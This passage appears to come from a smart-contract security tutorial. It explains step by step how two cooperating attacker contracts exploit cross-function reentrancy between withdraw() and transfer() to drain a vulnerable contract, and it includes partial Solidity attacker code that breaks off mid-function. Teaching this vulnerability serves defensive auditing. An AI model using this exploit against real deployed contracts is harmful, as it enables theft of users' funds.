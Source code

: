 <center><img class="image" src="./assets/images/accounts-state-cf-reentrancy-8.jpg"></center>
<b><center class="img-label">Deposit 1 ether</center></b>

**6.** The `ATTACKER CONTRACT 2` sends a request to execute the withdraw() function on the victim contract without depositing any funds since it was already deposited in the first contract attack.

**7.** The `ATTACKER CONTRACT 2` initiates a request to the victim contract to execute the `withdraw()` function as part of the attack. 

**8.** The victim contract starts to execute the `withdraw()` function once more, which transfers the funds to the caller (`ATTACKER CONTRACT 2`) using the `call()` function. However, the second attacker's malicious contract triggers the fallback function as it receives the funds. Since the fallback function calls the `transfer()` function of the victim contract while the `withdraw()` function is still in progress, the caller's balance is not yet updated to zero. Please note that the line of code `balances[msg.sender] = 0`; that updates the sender's balance is still pending to execute.

<center><img class="image" src="./assets/images/accounts-state-cf-reentrancy-9.jpg"></center>
<b><center class="img-label">Deposit 1 ether</center></b>

**9.** The transfer call is initiated, with the destination address set to `ATTACKER CONTRACT 1`.

**10.** The victim contract subtracts the transferred amount from the balance of `ATTACKER CONTRACT 2`.

**11.** The victim contract adds the transferred amount to the balance of `ATTACKER CONTRACT 1`.

<center><img class="image" src="./assets/images/accounts-state-cf-reentrancy-10.jpg"></center>
<b><center class="img-label">Deposit 1 ether</center></b>

**12.** The attacker can alternate between both contracts to drain all the funds by just attacking without despoit ethers again and again.

### Code

```sol
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.19;

interface IVulnerableContract {
    function deposit() external payable;
    function transfer(address _to, uint _amount) external;
    function withdraw() external;
    function getUserBalance(address _user) external view returns (uint);
} 

contract AttackerContract {
    IVulnerableContract public immutable vulnerableContract;
    AttackerContract public attackPeer;
    constructor(IVulnerableContract _vulnerableContract) {
        vulnerableContract = _vulnerableContract;
    }

    function setAttackPeer(AttackerContract _attackPeer) external {
        attackPeer = _attackPeer;
    }

    fallback() external payable {
        if (address(vulnerableContract).balance >= 1 ether) {
            vulnerableContract.transfer(
                address(attackPeer), 
                vulnerableContract.getUserBalance(address(this))
            );
        }
    }

    function initiateAttack() external payable {
```